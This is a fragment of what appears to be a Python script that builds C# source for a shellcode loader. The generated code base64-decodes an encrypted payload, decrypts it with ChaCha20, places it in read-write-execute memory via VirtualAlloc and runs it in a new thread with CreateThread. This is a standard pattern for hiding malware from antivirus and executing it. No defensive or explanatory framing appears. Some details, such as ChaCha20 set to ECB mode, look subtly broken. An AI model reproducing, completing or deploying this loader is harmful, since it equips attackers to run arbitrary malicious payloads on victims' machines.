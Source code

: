 ```python
            // Convert Base64 strings back to byte arrays
            byte[] encryptedShellcode = Convert.FromBase64String(encryptedShellcodeB64);
            byte[] key = Convert.FromBase64String(keyB64);
            byte[] nonce = Convert.FromBase64String(nonceB64);

            // Decrypt the shellcode
            byte[] decryptedShellcode = DecryptShellcode(encryptedShellcode, key, nonce);

            // Execute the shellcode
            ExecuteShellcode(decryptedShellcode);
        }}

        static byte[] DecryptShellcode(byte[] encryptedShellcode, byte[] key, byte[] nonce)
        {{
            using (var chacha20 = new ChaCha20Managed())
            {{
                chacha20.Key = key;
                chacha20.IV = nonce;
                chacha20.Counter = 0;
                chacha20.Mode = CipherMode.ECB;
                chacha20.Padding = PaddingMode.None;

                using (var decryptor = chacha20.CreateDecryptor())
                {{
                    return decryptor.TransformFinalBlock(encryptedShellcode, 0, encryptedShellcode.Length);
                }}
            }}
        }}

        static void ExecuteShellcode(byte[] shellcode)
        {{
            UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
            Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
            IntPtr hThread = IntPtr.Zero;
            UInt32 threadId = 0;
            IntPtr pinfo = IntPtr.Zero;
            hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }}

        private static UInt32 MEM_COMMIT = 0x1000;
        private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

        [System.Runtime.InteropServices.DllImport("kernel32")]
        private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
          UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

        [System.Runtime.InteropServices.DllImport("kernel32")]
        private static extern IntPtr CreateThread(
          UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress,
          IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

        [System.Runtime.InteropServices.DllImport("kernel32")]
        private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
    }}
}}
"""

    return csharp_code

def main():
```